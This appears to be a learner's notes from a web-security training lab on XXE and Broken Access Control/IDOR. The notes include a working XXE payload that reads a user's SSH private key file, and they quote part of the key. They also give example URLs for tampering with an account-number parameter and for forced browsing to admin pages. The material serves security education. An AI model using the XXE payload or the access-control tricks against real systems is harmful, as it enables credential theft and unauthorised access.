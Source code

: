 then open source code, it matches the image for task

  
What is the name of the user in  `/etc/passwd`
- bottom of source code `falcon:x:1000:falcon,,,:/home/falcon:/bin/bash`
- falcon

Where is falcon's SSH key located?
- SSH keys are store on Linux `/home/<username>/.ssh/id_rsa`
- `/home/falcon/.ssh/id_rsa `

What are the first 18 characters for falcon's private key

```
<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:/home/falcon/.ssh/id_rsa'>]>  
<root>&read;</root>

```

the returns the RSA private key
- ` MIIEogIBAAKCAQEA7b `



## Broken Access Control 

A regular visitor being able to access protected pages, can lead to the following:
- Being able to view sensitive information
- Accessing unauthorized functionality

Attack Scenarios:

1. the app uses unverified data in a SQL call that accesses account info

```
pstmt.setString(1, request.getParameter("acct"));

ResultSet results = pstmt.executeQuery( );
```

An attacker simply modifies the ‘acct’ parameter in the browser to send whatever account number they want
- ` http://example.com/app/accountInfo?acct=notmyacct `

2. attacker simply force browses to target URLs. Admin rights are required for access to the admin page

```
http://example.com/app/getappInfo

http://example.com/app/admin_getappInfo
```

- If an unauthenticated user can access either page, it’s a flaw
- If a non-admin can access the admin page, this is a flaw
---
IDOR, or Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access. IDOR is a type of access control vulnerability.

